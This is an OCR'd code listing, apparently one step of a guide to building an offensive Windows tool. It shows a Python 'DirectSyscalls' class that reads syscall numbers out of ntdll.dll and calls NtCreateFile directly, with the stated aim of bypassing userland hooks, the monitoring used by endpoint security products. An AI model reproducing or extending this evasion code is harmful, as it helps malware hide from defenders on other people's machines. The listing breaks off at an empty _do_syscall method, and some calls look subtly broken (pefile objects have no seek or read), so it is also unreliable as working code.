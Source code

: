 ### 2.2 Direct Syscalls

**File:** Create `Core/direct_syscalls.py`

```python
import ctypes
import struct

class DirectSyscalls:
    """Bypass userland hooks by calling syscalls directly"""
    
    def __init__(self):
        self.syscall_numbers = self._get_syscall_numbers()
    
    def _get_syscall_numbers(self):
        """Extract syscall numbers from ntdll.dll"""
        import pefile
        import os
        
        ntdll_path = os.path.join(os.environ['WINDIR'], 'System32', 'ntdll.dll')
        pe = pefile.PE(ntdll_path)
        
        syscalls = {}
        for export in pe.DIRECTORY_ENTRY_EXPORT.symbols:
            if export.name and export.name.decode().startswith('Nt'):
                # Read first bytes to get syscall number
                func_addr = pe.get_offset_from_rva(export.address)
                pe.seek(func_addr)
                bytes_read = pe.read(20)
                
                # Look for MOV EAX, syscall_number pattern
                if bytes_read[0:3] == b'\x4C\x8B\xD1':  # MOV R10, RCX
                    if bytes_read[3] == 0xB8:  # MOV EAX, imm32
                        syscall_num = struct.unpack('<I', bytes_read[4:8])[0]
                        syscalls[export.name.decode()] = syscall_num
        
        return syscalls
    
    def nt_create_file(self, path, desired_access=0x80000000):
        """Direct syscall for NtCreateFile"""
        syscall_num = self.syscall_numbers.get('NtCreateFile', 0x55)
        
        # Prepare parameters
        handle = ctypes.c_void_p()
        object_attributes = self._init_object_attributes(path)
        io_status = ctypes.create_string_buffer(16)
        
        # Execute syscall directly
        return self._do_syscall(
            syscall_num,
            ctypes.byref(handle),
            desired_access,
            ctypes.byref(object_attributes),
            ctypes.byref(io_status),
            0,  # AllocationSize
            0,  # FileAttributes
            0,  # ShareAccess
            1,  # CreateDisposition (FILE_OPEN)
            0,  # CreateOptions
            0,  # EaBuffer
            0   # EaLength
        )
    
    def _do_syscall(self, syscall_num, *args):
```